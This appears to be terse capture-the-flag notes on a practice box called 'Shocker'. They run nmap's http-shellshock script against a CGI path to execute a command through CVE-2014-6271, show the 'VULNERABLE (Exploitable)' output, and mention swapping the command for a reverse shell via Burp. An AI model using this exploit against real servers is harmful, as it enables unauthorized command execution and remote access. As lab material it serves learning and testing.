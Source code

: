 # nmap script
searching for shellshock scripts in in namp  name of the box shocker xd?
locate nse | grep shellshock
/usr/share/nmap/scripts/http-shellshock.nse
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>
HTTP Shellshock vulnerability
   State: VULNERABLE (Exploitable)
    IDs:  CVE:CVE-2014-6271  
	using burp to intercept nmap packets and changing it to a reverse shell instead of ls and we get in!